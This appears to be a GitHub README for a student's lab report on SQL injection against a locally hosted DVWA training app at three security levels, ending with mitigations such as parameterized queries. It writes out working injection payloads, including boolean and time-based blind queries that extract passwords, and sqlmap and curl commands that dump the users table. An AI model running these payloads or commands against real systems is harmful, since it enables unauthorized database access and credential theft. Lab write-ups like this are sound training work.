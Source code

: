 DVWA — SQL Injection Labs (Task 15) — Report

Short description
This repository contains my Task 15 report for the DVWA SQL Injection labs (Low, Medium, High). It documents steps taken, commands used, evidence (screenshots / output files), and recommended mitigations. The report is intended for learning / lab purposes only — do not use these techniques against systems you do not own or have explicit permission to test.

Contents

task15/ — The written report (DOCX) and screenshots.

README.md — this file.

Environment

DVWA host: http://127.0.0.1/DVWA/ (local VM)

DVWA changelog: v1.9 (changelog shows v1.10 Not Yet Released)

Tools: Firefox, Burp Suite (optional), sqlmap (1.9.x), curl, MySQL/MariaDB, php (Apache/PHP stack)

User: lab environment; all testing performed on locally-hosted DVWA instance.

How to reproduce (high level)

These reproduce instructions assume you have a running DVWA instance on 127.0.0.1 and a valid session cookie if needed.

1. Prepare

Open DVWA → Setup → Create/Reset DB.

Log in as admin (or other test account).

Set security level to the target (Low / Medium / High) from the DVWA Security page.

2. Low (direct injection)

Manual payload (in id GET parameter):

?id=1' OR '1'='1' -- -


Example sqlmap:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=REDACTED" --level=5 --risk=3 --batch --dbs

3. Medium (select / POST)

Replace the select with an input (DevTools) or intercept/modify POST in Burp:

id=1 OR 1=1 -- -   # POST body: id=1 OR 1=1 -- -&Submit=Submit


Curl example:

curl -s -X POST -H "Cookie: PHPSESSID=REDACTED" \
  --data "id=1 OR 1=1 -- -&Submit=Submit" \
  "http://127.0.0.1/DVWA/vulnerabilities/sqli/"


sqlmap (POST):

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  -D dvwa -T users --dump --batch

4. High (blind — boolean/time)

Boolean example:

1' AND SUBSTRING((SELECT database()),1,1)='d' -- -


Time-based example (MySQL):

1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='a', SLEEP(5), 0) -- -


Force sqlmap to use time technique:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  --technique=T --time-sec=5 --level=5 --risk=3 -D dvwa -T users --dump


Note: In my lab sqlmap succeeded but manual SLEEP() showed no measurable delay — see evidence/curl_time_test.txt and the report for analysis and reasons (SQLite backend, filtering, buffering, etc.).

##Findings — short summary

Low: direct injectable parameter; data extraction via UNION / boolean succeeded.

Medium: parameter moved to POST and uses a <select>, but injection is still possible by modifying the request (DOM edit, proxy, or crafted POST).

High: direct output blocked; sqlmap used blind techniques (boolean/time) to extract data. Manual SLEEP() payloads did not show an observable delay in my environment — likely due to backend settings or filtering — but boolean extraction worked.

##Conclusion & recommended mitigations

Root cause: unsanitized user data concatenated into SQL queries.

Recommendations:

Replace dynamic SQL concatenation with prepared statements / parameterized queries (PDO or mysqli prepared statements).

Rotate any test credentials exposed during the lab and restrict DB privileges (least privilege).

Add input validation, output encoding, and server-side WAF/rate-limiting.

Re-test after fixes using the same payloads and automated tools.

Contact

If you need clarifications or want the sanitized sqlmap/curl output adapted for inclusion in another report, open an issue or contact me via GitHub.
Note: Damn Vulnerable Web Application (DVWA) is third-party software created for security training. This repository does not claim ownership of DVWA itself. All materials here relate to my educational use of DVWA for lab exercises, testing, and reporting.

Disclaimer: All materials, commands, and scripts in this repository were created and executed strictly for educational purposes on a local lab instance under my control. Do not use these techniques against systems you do not own or have explicit written permission to test. The author accepts no liability for misuse. Sensitive values (cookies, passwords, keys) have been redacted; do not commit real credentials.

# Warning

**Warning:** These scripts and instructions are provided for educational use on a local lab environment only. Use at your own risk. The author accepts no responsibility or liability for any damage, loss, or legal consequences that may result from misuse or running these commands on systems you do not own or have explicit permission to test.

---

